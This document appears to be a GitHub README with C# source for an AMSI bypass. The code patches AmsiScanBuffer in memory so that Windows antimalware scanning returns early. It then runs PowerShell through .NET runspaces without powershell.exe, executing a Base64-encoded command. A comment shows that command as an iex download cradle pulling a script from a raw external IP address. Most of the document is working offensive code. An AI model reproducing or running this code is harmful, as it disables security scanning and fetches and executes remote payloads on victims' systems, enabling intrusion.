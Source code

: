 
The AMSI Bypassing along with System.Management.Automation.Runspaces which doesn't requeire the powershell.exe to execute powershell commands.
The Powershell.exe is just interpret of .NET assembly System.Management.Automation.dll to execute OS Command and invoke PowerShell commands.
System.Management.Automation.dll file is loaded when powershell.exe open up. hence I do not rely on powershell.exe to execute OS command and Invoke powershell command, 
because We can write our own interpreter to execucate any OS Command without having powershell.exe. in conclusion if someone had asked me that how Do we prevent from powershell base attack.I woulnd have recommend blocking System.Management.Automation.dll like I mention above The Powershell.exe is just interpret of .NET assembly System.Management.Automation.dll to execute OS Command.


**This AMSI Patching Techniques is heavy reliance on rastamouse's Techniques, there is something to keep in mind that the technique I utilized is being detected by most an Enpoint solution gradually .**


```
using System;
using System.Runtime.InteropServices;
using System.Management.Automation.Runspaces;
using System.Management.Automation;
using System.Text;

namespace Gawdawpalin 
{
    class Program
    {
        static void Main(string[] args)
        {

            var AmsiDLL = LoadLibrary("amsi.dll"); // Load the amsi.dll  to obtain The AmsiScanBuffer Address
            var asbAddress = GetProcAddress(AmsiDLL, "AmsiScanBuffer");

            var ret = new byte[] { 0xc3 }; //patch opcode
            VirtualProtect(asbAddress, (UIntPtr)ret.Length, 0x40, out uint oldProtect); //Pointer changing the AmsiScanBuffer memory protection
            Marshal.Copy(ret, 0, asbAddress, ret.Length);
            VirtualProtect(asbAddress, (UIntPtr)ret.Length, oldProtect, out uint _);
            Shwegugyi.MeMe();

        }

        class Shwegugyi 

        {
            //$OriginalCommand = "iex (New-Object Net.WebClient).DownloadString('https://54.18.24.199:7775/download/Bagan.ps1')"
            //[System.Convert]::ToBase64String([System.Text.Encoding]::unicode.GetBytes($OriginalCommand))
            public static string Command = System.Text.Encoding.UTF8.GetString(System.Convert.FromBase64String(@"Base64 Data"));
            
            public static void MeMe()
            {
                InitialSessionState p = InitialSessionState.CreateDefault();
                Runspace rspace = RunspaceFactory.CreateRunspace(p);
                rspace.Open();
                PowerShell Evil = PowerShell.Create();
                Evil.Runspace = rspace;
                Evil.AddScript(Command);
                Evil.Invoke();
                rspace.Close();
            }
        }

        //Importing The Necessary WInAPI to Load the LoadLibrary other related to system function.

        [DllImport("kernel32.dll")]
        public static extern IntPtr LoadLibrary(string name);

        [DllImport("kernel32.dll")]
        public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

        [DllImport("kernel32.dll")]
        public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

    }
}

```
